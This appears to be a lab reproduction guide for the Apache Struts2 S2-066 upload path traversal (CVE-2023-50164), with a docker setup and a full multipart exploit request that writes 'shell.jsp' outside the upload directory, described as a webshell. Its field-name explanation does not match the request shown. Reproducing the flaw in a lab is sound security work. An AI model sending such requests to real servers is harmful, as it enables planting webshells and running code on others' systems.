

Struts2 S2-066 Upload Path Traversal (CVE-2023-50164)¶
Apache Struts2 is a popular open-source web application framework for developing Java EE web applications. It uses and extends the Java Servlet API to encourage developers to adopt a model–view–controller (MVC) architecture. The framework provides developers with a rich set of tags and utilities to create enterprise-ready web applications that are easy to maintain and extend.
Apache Struts2 S2-066 is a path traversal vulnerability that exists in the file upload functionality. The vulnerability allows attackers to upload files outside the intended upload directory by manipulating the form field name case.
In Struts2's file upload processing, the framework normally only retains the basename of uploaded files to prevent path traversal. However, due to a logic flaw in the processing, attackers can bypass this protection by:
- Using a form field with an uppercase first letter (e.g., "Upload" instead of "upload")
- Providing a separate form field with the desired path traversal filename
This allows the unprocessed filename to override the basename protection, resulting in successful path traversal.
References:
- https://cwiki.apache.org/confluence/display/WW/s2-066
- https://y4tacker.github.io/2023/12/09/year/2023/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%88%86%E6%9E%90-S2-066/
Environment Setup¶
Execute the following command to start a web server written in Struts2 2.5.32:
docker compose up -d
After the environment is started, visit http://your-ip:8080 to access the application, which is a simple file upload page.
Vulnerability Reproduce¶
First, try to upload a JSP script to the normal upload directory:

Although the file is uploaded successfully, the JSP script cannot be executed in the upload directory due to server configuration:

Exploit the S2-066 vulnerability to upload the file outside the upload/ directory using the following request:
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Length: 331
------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="File"; filename="shell.jsp"
Content-Type: text/plain
<%
out.println("hello world");
%>
------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="fileFileName"
../shell.jsp
------WebKitFormBoundaryl6ZFZPznNSPZOFJF--
Note the key elements in the exploit:
- The form field name is "Upload" (first letter uppercase)
- A separate "uploadFileName" field contains the path traversal "../shell.jsp"

The JSP file is now uploaded outside the restricted upload directory and can be executed:

You can now access the webshell at http://your-ip:8080/shell.jsp.